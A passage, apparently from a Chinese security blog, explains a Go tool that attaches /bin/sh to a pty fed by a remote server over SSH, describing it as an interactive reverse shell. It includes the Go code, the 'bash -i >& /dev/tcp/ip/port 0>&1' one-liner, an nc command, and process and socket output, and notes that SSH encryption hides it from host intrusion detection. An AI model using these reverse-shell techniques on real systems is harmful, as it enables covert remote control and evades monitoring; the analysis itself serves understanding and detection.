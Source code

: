 创建一个pty，用于执行从远程服务器上面发送过来的数据．

command
``` golang
// Start the command
cmd := exec.Command(flagCommand)　//flagCommand:/bin/sh
    // Hook everything up
cmd.Stdout = tty
cmd.Stdin = tty
cmd.Stderr = tty
if cmd.SysProcAttr == nil {
    cmd.SysProcAttr = &syscall.SysProcAttr{}
}
 
cmd.SysProcAttr.Setctty = true
cmd.SysProcAttr.Setsid = true
 
// Start command
err = cmd.Start()
```

上面这段代码就相当与创建了一个交互式的反弹shell,类似与`bash -i >& /dev/tcp/ip/port 0>&1`
在客户端创建完毕链接之后，在服务器端运行` nc -c 127.0.0.1 2222`，连接到本地的2222端口．此时服务器的网络状态是:
``` shell
ss -anptw | grep 2222
tcp    LISTEN     0      128    127.0.0.1:2222                  *:*                 
tcp    ESTAB      0      0      127.0.0.1:59070              127.0.0.1:2222                users:(("nc",pid=13449,fd=3))
tcp    ESTAB      0      0      127.0.0.1:2222               127.0.0.1:59070
 
$ ps -ef | grep 13449
USERNAME   13449  2642  0 17:12 pts/2    00:00:00 nc -c 127.0.0.1 2222
 
$ ls -al /proc/13449/fd
total 0
dr-x------ 2 USERNAME USERNAME  0 Jun 18 17:12 .
dr-xr-xr-x 9 USERNAME USERNAME  0 Jun 18 17:12 ..
lrwx------ 1 USERNAME USERNAME 64 Jun 18 17:12 0 -> /dev/pts/2
lrwx------ 1 USERNAME USERNAME 64 Jun 18 17:12 1 -> /dev/pts/2
lrwx------ 1 USERNAME USERNAME 64 Jun 18 17:12 2 -> /dev/pts/2
lrwx------ 1 USERNAME USERNAME 64 Jun 18 17:12 3 -> socket:[169479331]
```
可以发现在服务器端的59070连接了2222端口，进程是13449．由于从客户端接受过来的数据都是经过ssh解密的，所以对于HIDS来说是很难发现异常的．
此时客户端的网络连接状态是：

``` shell
$ ss -anptw | grep 22  
tcp   LISTEN    0       128             0.0.0.0:22               0.0.0.0:*                                                                                     
tcp   ESTAB     0       0            172.16.1.2:41424      40.77.226.250:443     users:(("code",pid=5822,fd=49))                                               
tcp   ESTAB     0       0            172.16.1.2:37930      40.77.226.250:443     users:(("code",pid=5822,fd=41))                                               
tcp   ESTAB     0       0            172.16.1.2:33198     IP.OF.REMOTE.MACHINE:22      users:(("main",pid=32069,fd=5))                                               
tcp   ESTAB     0       0            172.16.1.2:57664      40.77.226.250:443     users:(("code",pid=5822,fd=40))                                               
tcp   LISTEN    0       128                [::]:22                  [::]:*
 
$ ps -ef | grep 32393
spoock  32393 32069  0 17:12 pts/4    00:00:00 /bin/sh
 
$ ls -al /proc/32393/fd
dr-x------ 2 spoock spoock  0 Jun 18 17:15 .
dr-xr-xr-x 9 spoock spoock  0 Jun 18 17:15 ..
lrwx------ 1 spoock spoock 64 Jun 18 17:15 0 -> /dev/pts/4
```